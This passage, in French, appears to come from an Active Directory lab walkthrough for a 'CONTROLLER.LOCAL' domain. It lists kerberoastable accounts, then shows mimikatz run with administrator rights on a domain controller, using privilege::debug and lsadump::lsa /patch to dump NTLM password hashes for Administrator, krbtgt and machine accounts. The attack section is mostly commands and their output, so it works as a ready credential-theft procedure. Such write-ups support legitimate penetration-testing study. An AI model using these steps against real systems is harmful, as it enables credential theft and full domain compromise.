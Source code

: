 Et des users kerberoastables :

- SQLSERVICE@CONTROLLER.LOCAL
- KRBTGT@CONTROLLER.LOCAL

## Dumping hashes with mimikatz

```sh
controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator>cd Downloads

controller\administrator@DOMAIN-CONTROLL C:\Users\Administrator\Downloads>.\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 May  2 2020 16:23:51              
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                               
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )  
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                    
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com ) 
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/ 

mimikatz #
```

Avant tout, on doit s'assurer qu'on lance mimikatz en administrateur :

```sh
mimikatz # privilege::debug 
Privilege '20' OK 
```

### Dump Hashes w/ mimikatz

Il est alors possible de dumper les hashes des mots de passes :

```sh
mimikatz # lsadump::lsa /patch 
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 

RID  : 000001f4 (500)                   
User : Administrator                    
LM   :                                  
NTLM : 2777b7fec870e04dda00cd7260f7bee6 
                                        
RID  : 000001f5 (501)                   
User : Guest                            
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b

RID  : 00000452 (1106)
User : Machine2
LM   :
NTLM : c39f2beb3d2ec06a62cb887fb391dee0
```
